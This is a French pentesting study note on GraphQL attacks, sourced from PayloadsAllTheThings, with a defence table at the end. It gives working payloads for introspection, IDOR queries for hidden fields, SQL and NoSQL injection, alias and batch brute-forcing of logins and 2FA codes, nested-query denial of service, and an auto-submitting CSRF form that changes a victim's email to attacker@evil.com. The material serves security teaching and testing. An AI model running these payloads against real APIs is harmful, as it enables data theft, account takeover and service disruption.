

# GraphQL — Attaques

> [!info] **En 1 phrase**
> GraphQL = un langage de requête d'API où le client **choisit lui-même les champs** à retourner — l'attaquant peut **introspecter le schéma complet**, injecter du SQL/NoSQL dans les arguments, **bruteforcer** en masse via le batching/les alias et saturer le serveur avec des **requêtes imbriquées** (DoS).
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)**

---

## Rappel GraphQL



> [!info] **Fonctionnement**
> Le schéma définit des **types** et des **champs** ; chaque champ est implémenté par un **résolveur** qui va chercher les données (BDD, API interne…). Le client ne reçoit **que** ce qu'il demande. Le serveur doit accepter POST, **peut** accepter GET.

### Types & opérations

```graphql
# 3 opérations racines : query (lecture), mutation (écriture), subscription (temps réel)
# Types scalaires : Int, Float, String, Boolean, ID

# Query basique (raccourci sans le mot-clé query) et avec argument (id → injection/IDOR)
{
  user {
    id
    name
  }
}
{
  user(id: "1") {
    name
    email
  }
}

# Query imbriquée (traversée des relations en une seule requête)
{ user(id: "1") { name posts { title comments { content } } } }

# Mutation (modification de données)
mutation {
  signIn(login: "Admin", password: "secretp@ssw0rd") { token }
}
```

> [!warning] **Mutations & GET** : les mutations ne fonctionnent **généralement pas en GET** — à tester quand même (une API qui l'accepte = grosse porte pour du CSRF).

---

## Détection d'un endpoint GraphQL

### Endpoints classiques

```bash
# Les plus courants
/graphql
/graphiql                      # IDE interactif (souvent avec introspection activée)
/api/graphql
/graphql/v1
/graphql.php
/graphiql.php

# Wordlist complète : danielmiessler/SecLists → Discovery/Web-Content/graphql.txt
```

### Probe GET / POST

```bash
# GET (si supporté) — probe __typename, le plus léger possible
curl -s "https://target/graphql?query={__typename}"
# → {"data":{"__typename":"Query"}}   = endpoint GraphQL confirmé
# GET avec requête complète URL-encodée :
# query=query%20%7B%20user(id%3A%221%22)%20%7B%20id%20name%20%7D%20%7D

# POST classique
curl -s -X POST https://target/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __typename }"}'
```

```json
{ "query": "query { user { id name } }" }
```

### Erreurs révélatrices (probe d'injection)

```bash
# Envoyer des requêtes invalides → le serveur révèle le schéma
?query={__schema}   ?query={}   ?query={thisdefinitelydoesnotexist}
```

```json
{ "errors": [{ "message": "Cannot query field \"thisdefinitelydoesnotexist\" on type \"Query\"." }] }
```

> [!tip] `__typename` = le test le plus rapide** : réponse `{"data":{"__typename":"Query"}}` = point GraphQL confirmé, sans besoin d'introspection ni de connaissance du schéma.

---

## Introspection — dump complet du schéma

> L'introspection (`__schema`, `__type`) est **prévue par la spec** : tout serveur GraphQL sait répondre "quels types, quels champs, quels arguments". GraphiQL/Playground l'utilisent pour l'autocomplétion. Si elle est activée en prod = schéma complet exfiltré.

### Dump minimal

```graphql
# Liste des noms de types + existence de mutations
{ __schema { types { name } } }
{ __schema { mutationType { name } } }
```

### Dump complet (avec fragments)

```graphql
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated
    deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes { ...TypeRef }
}
fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }
}
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    types { ...FullType }
    directives { name description locations args { ...InputValue } }
  }
}
```

### Dump complet sur une seule ligne (sans fragments)

```graphql
__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
```

### Détail d'un type précis

```graphql
{ __type (name: "User") { name fields { name type { name kind ofType { name kind } } } } }
```

### Introspection désactivée → fuzzing du schéma

> Quand `__schema`/`__type` renvoient une erreur, le serveur révèle souvent le schéma par ses **suggestions** sur les noms de champs inconnus.

```json
{ "message": "Cannot query field \"one\" on type \"Query\". Did you mean \"node\"?" }
```

- **Bruteforce de noms** avec wordlists : `Escape-Technologies/graphql-wordlist` (utilitaire `graphql-wordlist`), ou les listes de `SecLists`.
- **Clairvoyancex** (`mchoji/clairvoyancex`) : reconstruit le schéma **complet** malgré l'introspection désactivée, en exploitant les messages d'erreur de validation.

---

## Information Disclosure (fuite d'erreurs)

> Les réponses d'erreur GraphQL sont structurées (`errors[]`) et remontent **beaucoup** d'informations si le serveur n'est pas configuré en prod.

```json
{ "errors": [{ "message": "Argument \"id\" of required type \"ID!\" was not provided.", "locations": [{ "line": 1, "column": 8 }], "path": ["user"] }] }
```

- **Stack traces** : certains resolvers renvoient le détail de l'exception interne (`Error: ENOENT...`, exceptions Java/Python/Node) → version des libs, chemins de fichiers, nom des services.
- **Tester** : arguments invalides, types incompatibles, champs inexistants, mutation sans champs de retour → chaque erreur raconte une partie du schéma.
- **Introspection partielle** : certains filtres ne bloquent que `__schema` mais pas `__type`, ou laissent `__typename` et les suggestions actives.

---

## IDOR / accès non autorisés

> GraphQL ne remplace **jamais** le contrôle d'accès : un champ présent dans le schéma est **potentiellement requêtable**, même s'il n'est pas exposé dans l'UI. De nombreux bugs : un champ `isAdmin`, une mutation `deleteUser` sans vérification d'identité, des IDs devinables.

```graphql
# Champs masqués / non utilisés par l'app mais présents dans le schéma
{
  user(id: "1") {
    username
    email
    isAdmin
    passwordHash
    creditCard { number }
  }
}

# Lecture d'un objet privé par id (BOLA / IDOR classique) — les mutations
# destructives (deleteUser, removePost...) souffrent du même problème.
query {
  post(id: 3) {
    title
    content
  }
}
```

> [!warning] **Points de contrôle à tester** : chaque **résolveur** doit vérifier l'auth **et** l'autorisation (propriété de l'objet). Un champ de root exposé (`user(id:)`) peut court-circuiter la logique « ne voir que son propre profil ».
>
> `graphql-path-enum`** (dee-see) : à partir du dump d'introspection, liste **tous les chemins** permettant d'atteindre un type cible (`User`, `Payment`, `Admin`) — même enfoui derrière plusieurs relations. Ex : `Query (me) → User → PentesterProfile → skills → Skill`.

---

## Injections (SQLi / NoSQLi) dans les arguments

> GraphQL n'est qu'**une couche** entre le client et la base : les arguments finissent dans les requêtes BDD des résolveurs. Une injection SQL/NoSQL classique se transmet telle quelle dans un argument.

### SQLi (SQL classique, postgres/mysql/…)

```graphql
# Sonde : un simple quote dans un argument
{
  bacon(id: "1'") {
    id
    type
    price
  }
}
# → erreur SQL = résolveur concatène l'argument dans une requête

# Time-based (PostgreSQL)
query {
  user(name: "patt';SELECT 1;SELECT pg_sleep(30);--'") {
    id
    email
  }
}
# → réponse lente de 30s = injection confirmée

# UNION / error based : à adapter au SGBD (voir note SQLi)
```

### NoSQLi (MongoDB, via opérateurs `$regex`/`$where`)

```graphql
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}",
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
  {
    firstName
    lastName
    id
    patients { ssn }
  }
}
# $regex ".*" + lastName:Admin → contourne le filtre, dump des SSN
```

> [!tip] **Quand GraphQL ne reçoit pas un argument mais un JSON brut** (paramètre `options`/`search` de type String), on peut y injecter des opérateurs MongoDB (`$regex`, `$where`, `$ne`). Voir note [[NoSQL| NoSQL]].

---

## Batching & Resource Exhaustion

> Le batching permet d'envoyer **plusieurs opérations en une seule requête HTTP**. Les rate-limiters comptent souvent les **requêtes HTTP** (pas les opérations) → contournement massif.

### Batching par liste JSON

```json
[
  { "query": "query { login(pass: 1111, username: \"bob\") { token } }" },
  { "query": "query { login(pass: 2222, username: \"bob\") { token } }" }
]
```

### Batching par alias (même opération plusieurs fois)

```graphql
mutation {
  login(pass: 1111, username: "bob") { token }
  second:  login(pass: 2222, username: "bob") { token }
  third:   login(pass: 3333, username: "bob") { token }
  fourth:  login(pass: 4444, username: "bob") { token }
}
```

> [!warning] **Scénarios gagnants** :
> - **Bruteforce de mot de passe** amplifié : 1000 tentatives en 1 HTTP request.
> - **Bypass de rate-limit** (le limiteur voit 1 requête) **et de 2FA** : tester des centaines de codes à la fois.
> - **DoS** : des milliers d'alias sur le même champ (`a0: field, a1: field...`) → coût serveur explosé, parfois ignoré par le cost analysis.

### DoS par queries imbriquées

```graphql
{ a: user(id: "1") { friends { friends { friends { friends { friends { id } } } } } } }
```

> [!tip] **Limites fréquentes** : un `depth limit` (par ex. max 10 niveaux) et un **cost analysis** (chaque champ a un poids). Le cost analysis est souvent **bypassable** via les alias (non comptabilisés) et le batching (non comptabilisé) — toujours retester les deux.

---

## CSRF sur GraphQL

> Si l'API accepte les **mutations en GET**, ou les **POST cross-origin sans préflight**, un site malveillant peut déclencher des actions avec les cookies/session de la victime (SameSite permissif). Exemple de GET : `https://target/graphql?query=mutation%20%7B%20changeEmail(newEmail%3A%22attacker%40evil.com%22)%20%7B%20id%20%7D%20%7D`

### Via POST `text/plain` (pas de preflight CORS)

```html
<form method="POST" action="https://target/graphql" enctype="text/plain">
  <input name='{"query":"mutation { changeEmail(newEmail:\"attacker@evil.com\") { id } }"}'>
</form>
<script>document.forms[0].submit();</script>
```

> [!warning] **Pourquoi ça marche** : un POST cross-origin avec `Content-Type: text/plain` ne déclenche **pas** de preflight OPTIONS → le navigateur l'envoie quand même. Si le serveur accepte `text/plain` (ou ne vérifie pas le Content-Type), la mutation s'exécute **avec les cookies de la victime**.
>
> Tester les Content-Types : `application/json` (préflight) vs `text/plain` / `application/x-www-form-urlencoded` (pas de préflight).

---

## Bypass d'authentification

```graphql
# Brute-force du login via alias (1 seule requête HTTP)
mutation {
  login(username: "admin", password: "admin")    { token }
  login2: login(username: "admin", password: "123456") { token }
  login3: login(username: "admin", password: "password") { token }
  login4: login(username: "admin", password: "secret")   { token }
}
```

- **Mutations d'auth** : rechercher `signIn`, `login`, `register`, `resetPassword`, `changePassword`, `createUser` dans le schéma → bruteforce, inscription de compte admin (`role` paramétré ?), réinitialisation de mot de passe, changement d'email.
- **Tokens** : rechercher comment le token est transmis (`Authorization: Bearer`, header custom, paramètre de query). Tester le **jwt dans l'URL** (`?query=...&token=...`) — le token peut fuiter dans les logs.
- **Contournement de résolveurs** : un champ `user(id:)` non protégé permet de lire n'importe quel compte ; un champ `me` protégé mais un champ `user` pas protégé → fuite de données.
- **Validation absente / paramètre smuggling** : mutations qui n'identifient pas le propriétaire (`deletePost(id:)` accepte n'importe quel id) ; envoyer deux valeurs pour le même argument (via alias/batch) → le serveur en utilise une pour l'auth et une pour l'action.

> [!tip] Un bruteforce de login classique = **1 000 requêtes** → flag. En GraphQL avec alias/batching = **1 requête**. Toujours tester la mutation d'auth en premier quand elle existe dans le schéma.

---

## Outils

| Outil | Usage |
|---|---|
| **GraphQLmap** (swisskyrepo) | Scripting engine en CLI pour interagir avec un endpoint (introspection, dump, injections). |
| **graphql-cop** (dolevf) | Auditeur de sécurité automatisé (checklist de vulns GraphQL). |
| **InQL** (doyensec, extension Burp) | Scan du schéma + onglet dédié : test des queries/mutations directement depuis Burp. |
| **GQLSpection** (doyensec) | Génère les queries de test depuis un schéma introspecté. |
| **GraphQL Voyager** | Représente le schéma en graphe interactif → comprendre les relations très vite. |
| **graphw00f** (dolevf) | Fingerprinting du moteur GraphQL (express-graphql, Apollo, Hasura…). |
| **Clairvoyancex** | Reconstruit le schéma quand l'introspection est désactivée. |
| **graphql-path-enum** | Liste les chemins d'accès à un type cible. |
| **CrackQL** (nicholasaleks) | Bruteforce/fuzzing de mots de passe GraphQL. |

### Introspection via script Python

```python
import requests, json

url = "https://target/graphql"
r = requests.post(url, json={"query": "{ __schema { types { name kind } } }"})
schema = r.json()["data"]["__schema"]

for t in schema["types"]:
    if t["kind"] in ("OBJECT", "INPUT_OBJECT"):
        print(f"[{t['kind']}] {t['name']}")
```

> Le dump complet s'exporte aussi en JSON via `curl ... -o schema.json` puis s'analyse hors-ligne (Voyager, graphql-path-enum, GQLSpection).

---

## Détection & Défense

| Menace | Défense |
|---|---|
| **Introspection** | Désactivée en production (`introspection: false`). Ne jamais se reposer sur l'obscurité : le schéma fuite quand même (erreurs, suggestions, fuzzing). |
| **Queries abusives** | **Depth limiting** (profondeur max) + **Cost analysis** (poids par champ) + **Alias limiting** (nombrer les alias = les 2 principales failles des solutions naïves). |
| **Batching** | Limiter le nombre d'opérations par requête + rate-limit **par opération**, pas par requête HTTP. |
| **Injections SQL/NoSQL** | Arguments **paramétrés** dans les résolveurs (ORM/requêtes préparées), validation stricte des types. |
| **IDOR / auth** | **Auth sur CHAQUE résolveur** (jamais au niveau de la couche HTTP seule) + vérification de **propriété** de l'objet. |
| **Information disclosure** | Masquer les erreurs internes en prod, messages d'erreur génériques (`Internal server error`). |
| **CSRF** | Refuser les mutations en GET, exiger un header custom ou un Content-Type `application/json` + `SameSite=Strict/Lax`, vérifier l'origine. |
| **Mutations sensibles** | Persisted queries (allowlist des queries connues) + audit des résolveurs sensibles (`login`, `register`, `resetPassword`). |
| **Surveillance** | Logs des erreurs, détection de batching anormal (alias multiples, opérations > N), alertes sur requêtes imbriquées profondes. |

---

## Tips & Pièges

> [!tip] **Ordre d'attaque**
> 1. **Détecter** l'endpoint (`/graphql`, `/api/graphql`, `/graphiql`).
> 2. **Confirmer** avec `query={__typename}`.
> 3. **Introspecter** le schéma complet.
> 4. Repérer `queryType`/`mutationType` → champs racines → arguments → types.
> 5. Tester IDOR, injections dans les arguments, batching/bruteforce, CSRF.

> [!tip] **Les 3 endpoints classiques** : `/graphql`, `/graphiql` (IDE, introspection souvent ON), `/api/graphql` (variante commune). Toujours tester GET **et** POST.

> [!tip] **Comment lire un schéma** : le `queryType` liste les champs de lecture (`user`, `post`, `me`…), le `mutationType` les actions (`login`, `createUser`, `deletePost`…). Les arguments entre parenthèses = la surface d'attaque (id, search, filter). Les types non exposés en UI (`isAdmin`, `password`) = fuite probable.

> [!warning] **Pièges**
> - **Introspection désactivée ≠ blind** : les **suggestions** (`Did you mean "node"?`) et le fuzzing de noms de champs reconstruisent le schéma.
> - Les **mutations** marchent rarement en GET — si elles marchent, exploiter le CSRF.
> - Le **cost analysis** est contourné par les **alias** et le **batching** non comptabilisés.
> - Une erreur SQL dans un résolveur GraphQL révèle le SGBD → adapter les payloads (voir [[Injection SQL| SQLi]]).
> - Les tests sur des mutations **destructives** (`delete*`, `drop*`) peuvent casser l'environnement — rester sur des comptes de test.
> - Un champ présent dans le schéma n'est **pas** forcément utilisé par l'app → les champs "cachés" sont souvent les plus intéressants.

---

## Liens

- [[Injection SQL| SQLi]]
- [[NoSQL| NoSQL]]
- [[XSS (Cross-Site Scripting)| XSS]]
- [[SSRF| SSRF]]
- [[Attaques JWT| JWT]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — GraphQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
